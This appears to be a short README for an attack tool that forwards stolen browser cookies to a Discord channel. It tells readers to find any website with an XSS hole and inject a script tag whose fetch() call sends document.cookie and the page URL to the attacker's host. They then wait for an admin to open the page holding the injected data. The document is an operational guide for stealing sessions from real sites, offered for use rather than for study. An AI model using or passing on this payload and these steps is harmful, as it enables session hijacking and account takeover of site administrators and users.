 # Cookie Forwarder Discord Channel
## Requirement
- Discord Developer Account
- Node JS Hosting
- Website Target
---
## Steps
- Create discord bot (ref: https://buddy.works/tutorials/how-to-build-a-discord-bot-in-node-js-for-beginners)
- Write on .env, discord api key and channel id
- Find any website which have xss vuln
- Put this script on that input which have xss vuln
    ```js
   <script>fetch("{YOUR_HOST}/submit", {method: "POST", body: JSON.stringify({path: window.location.href, payload: document.cookie})})</script>
   ```
- Just wait till admin open that table which showing your data
